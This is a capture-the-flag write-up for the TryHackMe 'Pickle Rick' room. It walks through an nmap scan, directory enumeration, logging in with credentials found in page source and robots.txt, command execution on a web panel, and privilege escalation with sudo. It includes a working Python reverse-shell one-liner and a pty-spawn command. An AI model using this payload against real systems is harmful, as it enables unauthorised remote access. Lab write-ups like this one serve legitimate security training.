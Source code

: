 # Picke Rick

### A Rick and Morty CTF. Help turn Rick back into a human!

### Pickle Rick is a Rick and Morty themed tryhackme room where we exploit a webserver to find 3 ingredients or flags.

## Questions :

1. What is the first ingredient Rick needs?
2. Whats the second ingredient Rick needs?
3. Whats the final ingredient Rick needs?

## Enumeration

### NMAP 

> nmap -sS -sC -sV -A -O -vv BOX_IP

#### output

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-06 19:59 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:59
Completed NSE at 19:59, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:59
Completed NSE at 19:59, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:59
Completed NSE at 19:59, 0.00s elapsed
Initiating Ping Scan at 19:59
Scanning 10.10.32.22 [4 ports]
Completed Ping Scan at 19:59, 0.79s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:59
Completed Parallel DNS resolution of 1 host. at 19:59, 0.01s elapsed
Initiating SYN Stealth Scan at 19:59
Scanning 10.10.32.22 [1000 ports]
Discovered open port 80/tcp on 10.10.32.22
Discovered open port 22/tcp on 10.10.32.22
Completed SYN Stealth Scan at 19:59, 4.94s elapsed (1000 total ports)
Initiating Service scan at 19:59
Scanning 2 services on 10.10.32.22
Completed Service scan at 19:59, 7.52s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.32.22
Retrying OS detection (try #2) against 10.10.32.22
Retrying OS detection (try #3) against 10.10.32.22
Retrying OS detection (try #4) against 10.10.32.22
Retrying OS detection (try #5) against 10.10.32.22
Initiating Traceroute at 20:00
Completed Traceroute at 20:00, 3.02s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 20:00
Completed Parallel DNS resolution of 2 hosts. at 20:00, 0.01s elapsed
NSE: Script scanning 10.10.32.22.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 20.63s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 3.01s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Nmap scan report for 10.10.32.22
Host is up, received reset ttl 61 (0.75s latency).
Scanned at 2020-10-06 19:59:18 BST for 70s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08:16:72:a6:42:80:aa:21:3f:9e:2a:76:4c:bc:45:0d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDibc1nVIGXaLx8nF5hflDtQi7KVayIQjoV/97QvFHpe67phA9ozRb+o0Azrp3UBxc6zlGDJiPRPdgXZUL53Zygvip9Tj/8GYucBA1yzcN5gtWfR7cVG/vZo/ToDD2bTiVbMy1fW7zWa9Le9VEytFnsBFOk0ePEn5rI7wLuZ+HHaVTJegtq6KIVw9eQUCxTqfjEvFxCyJMSbwPXWdURGwVYOW3VVpU8awDkklUZRQ/ElsKGJLLF+CjtQ3/+aT9VeWKIP8n/k+ymFL0zvkygEGdMaUOFBiaZd8FAAiBAbHXNGg2Scsnmid8V9sXS0tyN4OuItZ7Xc26eKmlsCzDkJlJJ
|   256 38:e1:90:b4:69:a0:49:f8:1d:cb:d5:1a:79:22:a2:b1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGo31VvNkXrpUtTcaSzV68TxybntTXNKXfLV7uueau4r5ROiko7CqYXSBBbcKovi06b+fPCIxdnu84ZHNrMK41Q=
|   256 a0:48:4b:8f:87:64:67:ca:d3:d3:61:3a:b2:80:f3:8e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlvtA3D1u0/IPcguHsofaDoMS4J2/VyFUsc5Ko+hKtM
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/6%OT=22%CT=1%CU=34655%PV=Y%DS=4%DC=T%G=Y%TM=5F7CBEC
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=108%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Uptime guess: 0.006 days (since Tue Oct  6 19:51:51 2020)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   491.98 ms 10.4.0.1
2   ... 3
4   752.26 ms 10.10.32.22

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.87 seconds
           Raw packets sent: 1131 (53.730KB) | Rcvd: 1083 (46.818KB)
```

we have two open ports, 20 (ssh) and 80 (apache2 httpd)

## Site

![image](https://user-images.githubusercontent.com/53917092/95249981-e118a900-07ef-11eb-8a7e-cbdd288c1cb3.png)

### Source Code

![image](https://user-images.githubusercontent.com/53917092/95249935-d0683300-07ef-11eb-8e78-d666c56d47fc.png)

> Username: R1ckRul3s

###  find out interesting directories and files

I used dirbuster

![image](https://user-images.githubusercontent.com/53917092/95251000-44efa180-07f1-11eb-9d38-df6acd09fb4a.png)

![image](https://user-images.githubusercontent.com/53917092/95252462-63ef3300-07f3-11eb-8681-28b0a6ea917f.png)


#### robots.txt 

![image](https://user-images.githubusercontent.com/53917092/95252646-a4e74780-07f3-11eb-8898-a829866a4218.png)

(a string like a password???)

### Login

trying to login with User:R1ckRul3s and Password:Wubbalubbadubdub in /login.php

![image](https://user-images.githubusercontent.com/53917092/95253093-466e9900-07f4-11eb-89b8-cf9c15df7677.png)

![image](https://user-images.githubusercontent.com/53917092/95253107-4cfd1080-07f4-11eb-9bca-459a05af45f4.png)

#### Success

### RCE

on this panel we were able to execute commands on the system

![image](https://user-images.githubusercontent.com/53917092/95253253-85045380-07f4-11eb-9ebd-1a4f1dededdf.png)

then let's try a reverse shell from that

for this we will use the python, so we have to know where it is (and if it exists)

![image](https://user-images.githubusercontent.com/53917092/95253426-b9780f80-07f4-11eb-9a18-c8905ac8b69d.png)

all right, let's run the reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

(changing the ip address for my thm-vpn IP)

### Reverse Shell

![image](https://user-images.githubusercontent.com/53917092/95253810-55098000-07f5-11eb-994a-3c6b88ee9c85.png)

#### Shell to TTY

> python3 -c "import pty; pty.spawn('/bin/bash')"

![image](https://user-images.githubusercontent.com/53917092/95254413-3f488a80-07f6-11eb-9a0d-9b3ae8d00ca3.png)

### answering the first question

> cat Sup3rS3cretPickl3Ingred.txt

![image](https://user-images.githubusercontent.com/53917092/95254695-a7976c00-07f6-11eb-9be7-a3e4041c6b1d.png)

### walking to the second question

![image](https://user-images.githubusercontent.com/53917092/95254893-f8a76000-07f6-11eb-9793-c4acdad204f9.png)

### answering the second question

![image](https://user-images.githubusercontent.com/53917092/95255082-402dec00-07f7-11eb-8d45-bb296536341f.png)

### walking to root

looking at the commands that the user can run

> sudo -l

![image](https://user-images.githubusercontent.com/53917092/95255409-b03c7200-07f7-11eb-90f2-b852d6f149dc.png)


EASY!!!!!

We can run ANY command as root without password :O

## Root flag (3rd question)

![image](https://user-images.githubusercontent.com/53917092/95255573-fdb8df00-07f7-11eb-9447-99a43927e285.png)
